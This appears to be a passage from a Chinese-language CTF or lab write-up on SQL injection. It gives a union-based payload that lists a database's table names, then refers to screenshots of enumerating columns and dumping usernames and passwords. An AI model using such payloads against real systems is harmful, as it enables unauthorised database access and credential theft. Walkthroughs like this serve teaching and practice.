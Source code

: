 下一步爆破表名

```
-admin' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() # 
```

![在这里插入图片描述](img/c37b4128a2b0d4ddcafd1834998d5f94.png)
爆破列
![在这里插入图片描述](img/5a20cb8784a6adcfeb4d71cdf0eef9e8.png)
最后爆破username以及password
